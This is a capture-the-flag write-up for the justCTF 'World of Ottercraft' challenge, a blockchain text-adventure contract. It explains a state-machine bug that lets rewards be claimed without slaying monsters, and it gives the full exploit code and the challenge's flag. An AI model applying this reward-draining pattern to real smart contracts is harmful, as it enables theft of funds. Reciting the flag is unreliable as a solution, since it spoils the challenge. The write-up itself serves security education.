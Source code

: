 # World of Ottercraft

## Challenge
> Welcome to the World of Ottercraft, where otters rule the blockchain! In this challenge, you'll dive deep into the blockchain to grab the mythical Otter Stone! Beware of the powerful monsters that will try to block your path! Can you outsmart them and fish out the Otter Stone, or will you just end up swimming in circles?

  Challenge created by [embe221ed](https://embe221ed.dev/) & Darkstar49 from [OtterSec](https://osec.io/blog)

  `nc tos.nc.jctf.pro 31337`

  https://s3.cdn.justctf.team/a951edfb-bd5f-40a0-b334-ad650d889ac3/woo_docker.tar.gz

The setup is the same as for The Otter Scrolls

## The Otter Stone
We are given another little text adventure which is about slaying monster and buying gear.
But this time it uses a more complex state machine.
Once again the monster slaying business is not profitable and we must resort to other methods.

### State Machine
Analyzing the state machine is a good way to find bugs.
The following states exist:
* `PREPARE_FOR_TROUBLE`
* `ON_ADVENTURE`
* `RESTING`
* `SHOPPING`
* `FINISHED`
And the state transitions:
* `enter_tavern`: `RESTING` -> `SHOPPING`
* `checkout`: Any -> `RESTING`
* `find_a_monster`: `PREPARE_FOR_TROUBLE` | `RESTING` -> `PREPARE_FOR_TROUBLE`
* `bring_it_on`: `PREPARE_FOR_TROUBLE` -> `ON_ADVENTURE`
* `return_home`: `ON_ADVENTURE` -> `FINISHED`
* `get_the_reward`: `FINISHED` | `SHOPPING` -> `RESTING`
Two interesting things stand out:
1. The `checkout` function allows all incoming states
2. The `get_the_reward` function allows `SHOPPING` as input
Both of these are unexpected and likely a bug.

The `get_the_reward` function doesn't check if a monster is killed.
It always gives the reward for the monster at the index that was passed to `bring_it_on`.
So if we use `enter_tavern` to get to `SHOPPING` and then use `get_the_reward` a reward will be claimed without the need to kill the monster.
One problem is that `enter_tavern` gives us a ticket that must be returned to the contract, we cannot delete it.
So we must call `checkout` afterwards but to call checkout we must buy at least one item.
So additionally we must buy the cheapest item.
But luckily the monster reward is always larger than the cheapest item in the tavern.

Here is the full exploit:
```
    public fun solve(
        board: &mut Otter::QuestBoard,
        vault: &mut Otter::Vault<OTTER>,
        player: &mut Otter::Player,
        ctx: &mut TxContext
    ) {
        // buy gear to slay first monster
        let mut ticket = challenge::Otter::enter_tavern(player);
        challenge::Otter::buy_sword(player, &mut ticket);
        challenge::Otter::checkout(ticket, player, ctx, vault, board);

        // fill monster stack
        let mut i = 0;
        while (i < 25) {
            i = i + 1;
            challenge::Otter::find_a_monster(board, player);
        };

        // kill one monster
        challenge::Otter::bring_it_on(board, player, 0);
        challenge::Otter::return_home(board, player);
        challenge::Otter::get_the_reward(vault, board, player, ctx);

        // claim reward for all other monsters
        i = 0;
        while (i < 24) {
            i = i + 1;
            ticket = challenge::Otter::enter_tavern(player);
            challenge::Otter::buy_shield(player, &mut ticket);
            challenge::Otter::get_the_reward(vault, board, player, ctx);
            challenge::Otter::checkout(ticket, player, ctx, vault, board);
        };

        // buy flag
        ticket = challenge::Otter::enter_tavern(player);
        challenge::Otter::buy_flag(&mut ticket, player);
        challenge::Otter::checkout(ticket, player, ctx, vault, board);
    }
```
The exploit flow is as follows:
1. Buy some gear so we can slay a monster
2. Use the fact that `find_a_monster` allows us to store up to 25 monsters
3. Kill one monster to get back to `RESTING`
4. Claim the reward for all other monsters by:
    1. Use `enter_tavern` to get to `SHOPPING`
    2. Buy something so we can use `checkout` later
    3. Get the coins with `get_the_reward`
    4. Use `checkout` to get rid of the ticket from `enter_tavern`
5. Buy the flag
The server then responds with the flag `justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}`
